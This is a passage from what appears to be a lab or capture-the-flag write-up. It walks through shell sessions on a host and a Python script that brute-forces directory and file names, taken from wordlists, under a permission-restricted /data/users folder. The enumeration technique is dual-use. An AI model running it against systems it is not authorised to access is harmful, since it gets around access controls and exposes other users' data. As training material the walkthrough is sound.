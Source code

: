 Going to the home folder showed me that there are multiple users on the machine - so I decided to dig through each of these folders for any interesting data, but that boded no results.

At this point I decided to look at the root directory to see if there might be any interesting folders left behind.

```console
e.lindsey@tl10-ssh:/home$ cd /
e.lindsey@tl10-ssh:/$ ls
bin   database  home        lib64       mnt   root  selinux  tmp  vmlinuz
boot  dev       initrd.img  lost+found  opt   run   srv      usr
data  etc       lib         media       proc  sbin  sys      var
```

The __data__ folder looked interesting sine it isn't a common directory in Linux, so let's dig into that and see if there isn't anything in there that we can use.

```console
e.lindsey@tl10-ssh:/$ cd data/
e.lindsey@tl10-ssh:/data$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 25 14:34 .
drwxr-xr-x 24 root root 4096 Nov 25 23:19 ..
drwxr-x--x  8 root root 4096 Nov 25 15:14 users
e.lindsey@tl10-ssh:/data$ cd users/
e.lindsey@tl10-ssh:/data/users$ ls -la
ls: cannot open directory .: Permission denied
```

Permission Denied? Really.... Well then, that means that there are actual folders in there that we don't have access to. Possibly folders for all the other users that were located in the __/usr__ folder.

There's two things we can do here - find and leverage a [privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation) exploit to gain root privileges, or write a python script to enumerate any files and folders based off the usernames in the __/usr__ folder.

After some digging and enumeration I decided to go the Python Script route - since there was nothing that would allow me to escalate my privileges to root.

After a brief outline and some logic I came up with the following script:

```python
#!/usr/bin/python

import os

users = open("names.txt", "r")

for names in users.readlines():
	names = names.replace("\n", "")
	path = '/data/users/' + names + '/'
	tmp = os.path.isdir(path)
	if tmp == True:
		print path
		dir = open("common.txt", "r")
		for dir in dir.readlines():
			dir = dir.replace("\n", "")
			path2 = path + dir
			tmp2 = os.path.isdir(path2)
			if tmp2 == True:
				print '\033[1;34m [+] Directory Found\033[1;m', path2
				file = open("common.txt", "r")
				for file in file.readlines():
					file = file.replace("\n", "")
					path3 = path2 + '/' + file
					tmp3 = os.path.isfile(path3)
					if tmp3 == True:
						print '\033[1;32m [+] File Found\033[1;m', path3
```